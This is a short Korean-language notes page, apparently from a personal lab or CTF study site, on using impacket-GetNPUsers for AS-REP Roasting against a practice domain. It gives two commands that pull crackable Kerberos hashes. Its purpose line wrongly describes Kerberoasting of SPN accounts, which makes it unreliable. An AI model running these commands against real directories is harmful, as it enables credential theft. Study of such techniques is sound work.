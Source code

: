 ```yaml
---
layout: page
title: GetNPUsers
description: >
  This chapter covers the basics of content creation with Hydejack.
hide_description: true
sitemap: false
---
```


- **목적:** 서비스 주체 이름(SPN)이 등록된 계정을 찾아 서비스 티켓을 요청하고, 이를 오프라인에서 크랙하여 계정의 비밀번호를 알아냅니다.
- Kerberos 사전 인증이 비활성화된 사용자를 찾아 암호 해시를 추출하는 **AS-REP Roasting 공격**을 수행.
- ---


```bash
impacket-GetNPUsers vulnnet-rst.local/ -dc-ip $target -usersfile name.txt -format john -outputfile hashes.txt
```


```bash
impacket-GetNPUsers vulnnet-rst.local/ -dc-ip $target -usersfile name.txt -outputfile hashes.txt
```


